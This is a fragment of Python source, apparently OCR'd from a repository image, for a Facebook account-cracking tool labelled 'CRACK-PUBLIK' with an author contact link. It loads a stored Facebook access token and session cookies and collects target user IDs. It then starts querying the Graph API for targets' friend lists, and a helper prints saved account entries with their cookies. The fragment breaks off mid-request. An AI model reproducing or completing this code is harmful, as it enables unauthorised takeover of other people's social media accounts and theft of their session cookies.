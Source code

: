 def process_file(file_path, show_cookies):
    with open(file_path, 'r') as file:
        lines = file.readlines()
    for i, line in enumerate(lines, start=1):
        parts = line.strip().split('|')
        if show_cookies:
            print(f" \x1b[38;5;196m[\x1b[37m{i}\x1b[38;5;196m]\x1b[37m  {parts[0]} • {parts[1]}")
            kuki = parts[2]
            print(f" [🍪] {kuki}")
        else:
            print(f" \x1b[38;5;196m[\x1b[37m{i}\x1b[38;5;196m]\x1b[37m {parts[0]} | {parts[1]}")
    linex()
    input(" \x1b[38;5;196m[\x1b[37m•\x1b[38;5;196m]\x1b[37m ENTER TO EXIT ");restart()

#-----------------[ CONTACT ]-----------------#

def contact():
	os.system('xdg-open https://www.facebook.com/harryexe')

#-------------------[ GROUPS ]----------------#

def groups():
	linex()
	print("OPEN SOURCE VERSION")

#-------------------[ CRACK-PUBLIK ]----------------#

def harry_public():
	try:
		token = open('data/.token.txt','r').read()
		cok = open('data/.cok.txt','r').read()
	except IOError:
		print('[×] INVIALD COOKIE ')
		time.sleep(5)
		login()
	try:
		linex()
		jum = int(input(' \x1b[38;5;196m[\x1b[37m•\x1b[38;5;196m]\x1b[37m ENTER TARGET AMOUNT  : '))
		linex()
	except ValueError:
		linex()
		animation(' \x1b[38;5;196m[\x1b[37m×\x1b[38;5;196m]\x1b[37m INVALID OPTION ')
		restart()
	if jum<1 or jum>100000000:
		linex()
		animation(' \x1b[38;5;196m[\x1b[37m×\x1b[38;5;196m]\x1b[37m TRY AGAIN ')
		exit()
	ses=requests.Session()
	yz = 0
	for met in range(jum):
		yz+=1
		kl = input(' \x1b[38;5;196m[\x1b[37m•\x1b[38;5;196m]\x1b[37m INPUT UID '+str(yz)+' : ')
		uid.append(kl)
	for userr in uid:
		try:
			head = (
			{"user-agent": "Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Mobile Safari/537.36"
			})
			if len(id) == 0:
				params = (
				{
				'access_token': token,
				'fields': "friends"
				}	          
			)